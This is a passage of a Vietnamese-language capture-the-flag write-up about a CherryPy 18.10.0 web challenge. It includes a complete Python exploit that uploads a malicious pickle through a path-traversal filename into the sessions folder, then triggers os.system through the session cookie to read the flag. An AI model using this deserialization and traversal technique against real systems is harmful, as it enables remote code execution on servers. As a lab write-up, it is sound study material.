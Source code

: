 Điểm chú ý là nó dùng hàm để lấy đường dẫn tuyệt đối. 

![image](https://hackmd.io/_uploads/rklsmmodle.png)
 
Nhưng nó ko trả về gì hết !!! 

Nên mình thử thay đổi thành `/phuc` rồi vào docker xem sao. 

![image](https://hackmd.io/_uploads/rkp1N7iOxe.png)

Mình thấy nó tạo ra 1 folder là `/phuc` lun. Và quan sát trong folder `/app` thì có `sessions`. 

![image](https://hackmd.io/_uploads/SJ7yH7sdll.png)

Vì đến đây là hết ý tưởng nên mình thử tìm source của Cherrypy=18.10.0 để đọc thử để xem nó xử lý session như thế nào. 

![image](https://hackmd.io/_uploads/r1T3SXo_ee.png)

Ở đây nó xử lý bằng load 1 file lên mà ko có biện pháp bảo vệ và nó được xác định bằng hàm `get_file_path()`

![image](https://hackmd.io/_uploads/HJ8MU7jdgl.png)

Và ở hàm này thì có biện pháp chặn path traversal. 

Như vậy, mình có ý tưởng vì trong ứng dụng có 1 file `readflag.c` để đọc `flag` bằng `root`. 

Cho nên, nếu mình upload 1 file vào trong thư mục `sessions` và trong file đó lại chứa 1 lệnh để nó chạy lệnh system thì sao. 

```python!
import requests, pickle, io, os
HOST, PORT = "127.0.0.1", 1337
CHALLENGE_URL = f"http://{HOST}:{PORT}"
ADMIN_SESSION = "34cff0f4d4950316276caef2a9515aab5aa69fe0"

class PickleRCE(object):
    def __reduce__(self):
        return (os.system,("/readflag > /app/static/flag.txt",))
      
payload = pickle.dumps(PickleRCE())
pickle_file = io.BytesIO(payload)
pickle_file.name = "../../../app/sessions/session-injected"

files = {
    "file": (pickle_file.name, pickle_file, "application/octet-stream")
}
 
cookie_data = {
    "session_id": ADMIN_SESSION
} 
requests.post(f"{CHALLENGE_URL}/upload_file", cookies=cookie_data, files=files)

cookie_data = {
    "session_id": "injected"
} 
requests.get(f"{CHALLENGE_URL}/admin", cookies=cookie_data)
```

Nhưng khi chạy script thì nó và sau đó nếu mình load trong cookie là `injected` thì file đó sẽ chạy os. 

Và mình truy cập được flag. 

![image](https://hackmd.io/_uploads/HJhyOXiOeg.png)




